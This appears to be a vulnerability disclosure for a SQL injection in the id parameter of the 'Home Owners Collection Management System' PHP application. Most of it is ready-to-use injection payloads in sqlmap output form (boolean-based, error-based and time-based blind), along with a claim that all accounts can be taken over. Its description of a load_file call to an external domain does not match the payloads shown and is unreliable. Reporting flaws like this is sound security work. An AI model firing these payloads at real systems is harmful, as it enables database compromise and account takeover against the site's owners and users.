 ## [Home Owners Collection Management System](https://www.sourcecodester.com/php/15162/home-owners-collection-management-system-phpoop-free-source-code.html)
### Exploit Title:Home Owners Collection Management System - id parameter SQL injection
## [Vendor](https://www.sourcecodester.com/users/tips23)
### Exploit Author: fuuzyap1

## Description:

The id parameter appears to be vulnerable to SQL injection attacks. The payload ```page=members/view_member&id=2' OR (SELECT 9041 FROM(SELECT COUNT(*),CONCAT(0x717a7a6a71,(SELECT (ELT(9041=9041,1))),0x7176717071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'JPZH'='JPZH'``` was submitted in the id parameter. 
This payload injects a SQL sub-query that calls MySQL's load_file function with a UNC file path that references a URL on an external domain. 
The application interacted with that domain, indicating that the injected SQL query was executed.
The attacker can take account control of all accounts on this system.


vuln url:
```
http://localhost/admin/?page=members/view_member&id=2
```

[+] Payload:

```mysql

---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: page=members/view_member&id=2' AND 3866=3866 AND 'dhhU'='dhhU

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: page=members/view_member&id=2' OR (SELECT 9041 FROM(SELECT COUNT(*),CONCAT(0x717a7a6a71,(SELECT (ELT(9041=9041,1))),0x7176717071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'JPZH'='JPZH

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=members/view_member&id=2' AND (SELECT 9083 FROM (SELECT(SLEEP(5)))NEeP) AND 'DwyE'='DwyE
---

```

## Reproduce:


## Proof and Exploit:
![image](https://user-images.githubusercontent.com/95869214/153038977-0138b5a9-1a05-470a-95ed-cf48991b6387.png)

